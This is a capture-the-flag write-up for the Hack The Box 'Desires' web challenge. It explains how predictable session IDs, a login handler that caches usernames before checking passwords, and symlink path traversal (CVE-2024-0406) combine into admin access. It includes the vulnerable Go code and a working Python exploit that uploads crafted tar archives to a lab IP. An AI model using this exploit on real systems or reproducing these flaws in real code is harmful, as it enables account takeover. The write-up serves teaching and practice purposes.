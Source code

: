 ## HTB Desires

> There is a web application which allows to upload archive files after registering and authentication. We are given a soure code of app along with configuration files.

Authentication flow:
1. User registers with username and password.
2. User authenticates with credentials
3. Session cookie is obtained. Cookie is created by hashing unix timestamp with SHA256, so it is predicatble.
4. Credentials data are saved in `/tmp/sessions/username/sessionID`

```go
sessionID := fmt.Sprintf("%x", sha256.Sum256([]byte(strconv.FormatInt(time.Now().Unix(), 10))))
```
Upload:
1. User uploads archive file, which is saved as UUID.ext
2. File is saved in `./uploads/UUID.ext`
3. New directory is created with `0755` permissions in `./files/username`
4. UUID.ext is extracted to created directory.

Exploitation steps:
1. Since session ids are predictable we can generate e.g. 100 session ids for next 100s for non-existing user, e.g. attacker.

```py
session_ids = []
    current_time = int(time.time())
    for i in range(100):
        session_id = hashlib.sha256(str(int(current_time)+i).encode()).hexdigest()
        session_ids.append(session_id)
        print(f"[+] Session ID: {session_id}")
```

2. Non-existing user is essential, because with CVE-2024-0406 we can write new files, but we cannot overwrite them. So for existing user, we cant create /tmp/session/existingUser/UUID. However, existing user will be needed for uploading files.
3. Now we upload 100 tars to remote target, which will extract all tars to relevant path: `/tmp/session/attacker/session_id`. However, there is a trick, we are still not able to get `FLAG` in `/user/admin` even with good session ID, because remote target tests if username is in Redis, since `attacker` does not exist (wasn't registered), this check will fail resulting in `500 Internal Server Error`.
```go
func DesireIsEnigma(c *fiber.Ctx) error {
        user := c.Locals("user")
        if user == nil {
                return utils.ErrorResponse(c, "User not found", http.StatusForbidden)
        }

        userStruct, ok := user.(User)
        if !ok {
                return c.SendStatus(http.StatusInternalServerError)
        }
```
4. However, there is security flaw in LoginHandler, before verifying if user exists, `LoginHandler` invokes `PrepareSession()` which saves current username to Redis cache, **this allows us to create entry in Redis, which allows to bypass check in 3rd step.**

```go
func LoginHandler(c *fiber.Ctx) error {
        var credentials Credentials
        if err := c.BodyParser(&credentials); err != nil {
                return utils.ErrorResponse(c, err.Error(), http.StatusBadRequest)
        }

        sessionID := fmt.Sprintf("%x", sha256.Sum256([]byte(strconv.FormatInt(time.Now().Unix(), 10))))

        err := PrepareSession(sessionID, credentials.Username) // VULNERABILITY: BROKEN LOGIC

        if err != nil {
                return utils.ErrorResponse(c, "Error wrong!", http.StatusInternalServerError)
        }

        user, err := loginUser(credentials.Username, credentials.Password)
        if err != nil {
                return utils.ErrorResponse(c, "Invalid username or Password", http.StatusBadRequest)
        }
```

```go
func PrepareSession(sessionID string, username string) error {
        return utils.RedisClient.Set(username, sessionID, 0)
}
```

5. So, after uploading files with prepared session IDs, we are trying to login as `attacker`, of course this will fail in authentication, since that user doesn't exist, but as mentioned in 4th step, we are able to save that username to cache, bypassing check in 3rd step. Finally we can invoke `user/admin` with generated session IDs.

```python
if __name__ == "__main__":
    # generate sessiond ids for next 100 seconds
    session_ids = []
    current_time = int(time.time())
    for i in range(100):
        session_id = hashlib.sha256(str(int(current_time)+i).encode()).hexdigest()
        session_ids.append(session_id)
        print(f"[+] Session ID: {session_id}")

    for session_id in session_ids:
        exploit = SymlinkArchiveExploit(
            target_path=f"/tmp/sessions/",  # Target directory for Path Traversal eg. /tmp/sessions in this case
            payload_data='{"username":"admin","id":3,"role":"admin"}',  # Value of the data to be written for eg. a json session json to gain admin role
            symlink_name=f"{session_id}",
            session_id=f"{session_id}",
            archive_name="malicious.tar"
        )

        if exploit.create_malicious_archive():
            # Example upload configuration
            exploit.upload_archive(
                upload_url="http://83.136.252.13:30585/user/upload",
                cookies={"username":"test", "session": "9d6c316dd90c2d89f5c5de4d9fd529300dd57125b6eac5b423012e8632f61b49"},  # Add session cookies if needed
            )

    # attempt to login as admin
    response = requests.post(
        "http://83.136.252.13:30585/login",
        data={"username": "admin", "password": "admin"}
    )
    print(response.text)

    for session_id in session_ids:
        rsp = requests.get(
            "http://83.136.252.13:30585/user/admin",
            cookies={"session": session_id, "username":"admin"}  # Use the session ID from the payload
        )
        print(rsp.text)
```

Created exploit is based on public available POC of CVE-2024-0406: `https://github.com/walidpyh/CVE-2024-0406-POC`.

To sum up, we leveraged three vulnerabilities here:
1. Predicatble session ids
2. Broken authentication logic (saving username to Redis before authentication)
3. CVE-2024-0406 - Path traversal through symlinks
